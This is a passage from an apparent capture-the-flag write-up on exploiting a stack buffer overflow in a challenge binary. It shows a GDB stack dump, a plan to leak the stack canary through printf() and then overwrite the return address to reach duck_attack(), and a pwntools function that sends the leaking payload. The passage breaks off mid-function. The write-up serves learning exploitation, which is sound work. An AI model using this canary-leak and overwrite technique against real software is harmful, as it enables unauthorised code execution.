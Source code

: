 ```as
0x7fffffffdb90: 0x0000000000000000      0x0000000000000000
0x7fffffffdba0: 0x0000000000000000      0x0000000000000000
0x7fffffffdbb0: 0x0000000000000000      0x0000000000000000
0x7fffffffdbc0: 0x0000000000000000      0xb81ee3015c855d00
0x7fffffffdbd0: 0x00007fffffffdbf0      0x000000000040162a
0x7fffffffdbe0: 0x0000000000000000      0xb81ee3015c855d00
0x7fffffffdbf0: 0x0000000000000001      0x00007ffff7c29d90
0x7fffffffdc00: 0x0000000000000000      0x0000000000401605
```

Now the canary is at 89th byte and the return address at 95th byte from our input. And since the second `read()` allows us to write 106 bytes, we should be able to overwrite the return address to redirect the flow to `duck_attack()` once `duckling()` returns.

# Exploitation Process

## Theory

With so much of prep work, our exploit development should be smooth. So let's finalize our plan of action:
1. From the [first read()](#first-read), the canary value at 121st byte can be reached by placing "Quack Quack " at the 90th byte (121st byte - 32 bytes from pcVar1). Technically we should be placing it at 89th byte but doing so will give us `0x00` as first byte, terminating the response. Hence we will skip that and manually add it later.
2. The `printf()` function will provide us with some binary non-printable characters which should contain the canary value.
3. Once we have the canary value, we will place it again through [second read()](#second-read) from 89th byte at address `0xdbd8`. The `rbp` value at `0xdbd0` should also be preserved, but it also works if we simply keep it 0.
4. At last, we will add the return address of `duck_attack` at the end of the payload to ultimately modify the return pointer to that function.

**Note**: Technically, we are given only 106 bytes (`0x6a`) to write with second `read()`, and 88 + 8(canary) + 8(`rbp`) is already 104 bytes. So we only have 2 bytes left to enter. Even then, since the `0x40****` is same for both return addresses, we only need to change the last two bytes! 
{:.info}

## Exploit Development

### Leaking Canary

Below is the function to exploit [first read()](#first-read) and leak the canary value.

```python
def leak_address(proc, attach=False):
    proc.recvuntil(b'> ')
    payload = b'A'*89 + b'Quack Quack '                         # Placing substring at the 90th byte
    proc.sendline(payload)
    
    response = proc.recvuntil(b'the Duck?')
    print("Response:\n", response)

    out = response.split(b'Quack Quack ')[1].split(b',')[0]
    print(f'Data extracted with offset 89: {out}')

    canary_bytes = out[:7]
    canary = u64(canary_bytes.rjust(8, b'\x00'))                # Adding 0x00 manually at the beginning
    print(f"Canary value at offset: {hex(canary)}")             # Leaked Canary

    if attach:                                                  # Attaching GDB if debugging required
```